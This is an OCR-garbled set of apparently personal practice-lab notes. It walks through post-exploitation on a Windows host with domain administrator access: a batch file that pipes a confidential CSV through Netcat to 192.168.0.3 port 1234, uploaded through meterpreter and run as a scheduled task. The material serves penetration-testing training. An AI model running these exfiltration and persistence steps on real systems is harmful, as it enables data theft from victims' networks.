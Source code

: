 > from the save as type drop-down, select All Files and click Save.

> close the plab.csv file.

================== SWITCH !!!!!!!!================================
''
should be moving from PLABWIN810 to PLABKALI01
''


1. Connect back to PLABKALI01. In the terminal window, type the followi   ng command:

> whoami

> Press Enter

> notice that you have the domain administrator access

2. you need to close the Netcat session now. Press Ctrl + c 

3. you need to create a Netcat listener now to get hold of the plab.csv   file, which is a confidential file.

Clear the screen with the clear command. Type the following command:

$ cat > task.bat

> Press Enter

4. Avnew file has been created. Type the following commands:
''
 notice that each command is its own. press enter after each
 individual command

''

> @echo off 

> C:\Windows\nc.exe -w 3 

> 192.168.0.3 1234 < C:\plab.csv

> remember to press enter after each command executes 

> save and exit the file, press Ctrl + z.

5. Next you will create a scheduled task on the remote system to run th   e Netcat listener.

> To do this, bring the msf5 prompt window in front and type the follow  ing command:

> run

> Press Enter. You are back at the meterpreter prompt.

6. You need to upload the task.bat file to the remote system. To do thi   s, type the following command:

> upload /root/task.bat C:\\Windows

> press enter

> notice that the file is uploaded to the remote system.

>  press Ctrl + l to clear the screen.
